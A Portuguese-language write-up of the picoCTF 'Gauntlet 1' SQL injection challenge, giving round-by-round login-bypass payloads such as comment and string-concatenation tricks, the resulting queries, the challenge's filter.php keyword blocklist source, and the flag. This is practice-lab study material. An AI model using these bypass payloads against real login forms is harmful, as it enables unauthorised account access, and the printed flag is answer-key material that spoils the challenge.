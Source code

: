 # Gauntlet 1 
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [SQL Injection]  

## Sobre o Desafio  
Can you beat the filters? 

**Objetivo:** Log in as admin.  

## 🔗 Links do Desafio
- [Gauntlet_1](https://play.picoctf.org/practice/challenge/88)
- [Acesse o desafio](http://jupiter.challenges.picoctf.org:19593/)  
- [Página de filtragem](http://jupiter.challenges.picoctf.org:19593/filter.php)  

Boa sorte! 🔥  


## Solução  

```
Ao acessar o site solicitado, chegando em uma janela de login e senha, com as seguintes solicitações:
```
![image](https://github.com/user-attachments/assets/bbfac422-eb64-4cb1-8829-41d31270dd6b)
```


round 1 - 
username:
admin' --           ( -- comenta todo resto )
password:
qualquercoisa

SELECT * FROM users WHERE username = 'admin' --' AND password = 'qualquercoisa'


round 2 -
username:
admin' /*          ( # e /* são outras formas de comentar)
password:
qualquercoisa

SELECT * FROM users WHERE username='admin' /*' AND password='1'


round 3 -
username:
admin';              (o ; indica o final de uma execução e começo da outra)
password:
qualquercoisa

SELECT * FROM users WHERE username='admin';' AND password='123'

round 4 -
username:
ad'||'min';          ()
password:
qualquercoisa

SELECT * FROM users WHERE username='ad'||'min';' AND password='123'

round 5 -
username:
ad'||'min';          ()
password:
qualquercoisa

SELECT * FROM users WHERE username='ad'||'min';' AND password='123'

filter.php

icoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}




<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?>



```

> Assim, obtemos a flag `picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}`  
